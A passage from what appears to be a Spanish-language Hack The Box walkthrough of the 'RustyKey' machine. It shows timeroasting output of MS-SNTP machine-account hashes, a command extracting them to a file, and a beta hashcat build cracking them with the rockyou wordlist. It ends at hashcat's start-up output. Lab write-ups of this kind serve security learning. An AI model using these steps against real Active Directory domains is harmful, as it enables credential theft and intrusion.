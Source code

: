 ```python
1120:$sntp-ms$bb48e03b027ef3ed6912e536a4462d6c$1c0111e900000000000a0a434c4f434cec14adcf5586d2ede1b8428bffbfcd0aec14bb56d16e22f3ec14bb56d16e539a
1121:$sntp-ms$0481acb4f943f703e06193c31c27ad94$1c0111e900000000000a0a434c4f434cec14adcf55a87a07e1b8428bffbfcd0aec14bb56d18fcd67ec14bb56d18ff5ab
1122:$sntp-ms$444ede1329099dfb7f631b6bfa606cb9$1c0111e900000000000a0a434c4f434cec14adcf549563a9e1b8428bffbfcd0aec14bb56d495380bec14bb56d4957cd4
1123:$sntp-ms$e5520ed63fffea85325b039e0cb51697$1c0111e900000000000a0a434c4f434cec14adcf54a42c9ae1b8428bffbfcd0aec14bb56d4a411c2ec14bb56d4a43859
1124:$sntp-ms$259f5fae27495d14ea4bbbad0330d925$1c0111e900000000000a0a434c4f434cec14adcf54c99a12e1b8428bffbfcd0aec14bb56d4c98295ec14bb56d4c9a92b
1125:$sntp-ms$922873838b2615a9e22993ea17fe4063$1c0111e900000000000a0a434c4f434cec14adcf54e77772e1b8428bffbfcd0aec14bb56d8be46f8ec14bb56d8be9e35
1126:$sntp-ms$37a6dd4d4f4db252ec76b4c696f259cd$1c0111e900000000000a0a434c4f434cec14adcf5542967de1b8428bffbfcd0aec14bb56d9198288ec14bb56d919b181
1127:$sntp-ms$0fc6657374b723ae42a2530b916e1a78$1c0111e900000000000a0a434c4f434cec14adcf556a26e5e1b8428bffbfcd0aec14bb56d94117f8ec14bb56d9414544
```
ahora lo que hare sera extraer solo el hash y guardarlo en un archivo

```bash
python3 timeroast.py 10.10.11.75 |awk -F ':' '{print $2}' > hash.txt
```

ahora el problema es crackearlos ya que hashcat no tiene soporte y john tampoco, pero despues de una investigacion, existe una version bera de hashcat que tiene soporte

url: https://hashcat.net/beta/

nos descargamos el comprimido y al descomprimir vemos el binario `hashcat.bin` que usaremos para intentar crackear

```bash
./hashcat.bin --identify '$sntp-ms$922873838b2615a9e22993ea17fe4063$1c0111e900000000000a0a434c4f434cec14adcf54e77772e1b8428bffbfcd0aec14bb56d8be46f8ec14bb56d8be9e35'
```
```bash
The following hash-mode match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
  31300 | MS SNTP                                                    | Network Protocol

```

si lo reconoce asi que vamos a pasarle el archivo que contiene los hash

```bash
./hashcat.bin -m 31300 -a 0 -w 4 -d 1 /home/darks/Documents/htb/RustyKey/hash.txt /usr/share/wordlists/rockyou.txt
```
```bash
hashcat (v6.2.6-1087-gd3983edaf) starting

* Device #1: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
nvmlDeviceGetFanSpeed(): Not Supported

CUDA API (CUDA 12.4)
====================
* Device #01: NVIDIA GeForce RTX 4050 Laptop GPU, 5805/5898 MB, 20MCU

OpenCL API (OpenCL 3.0 CUDA 12.4.131) - Platform #1 [NVIDIA Corporation]
========================================================================
* Device #02: NVIDIA GeForce RTX 4050 Laptop GPU, skipped

```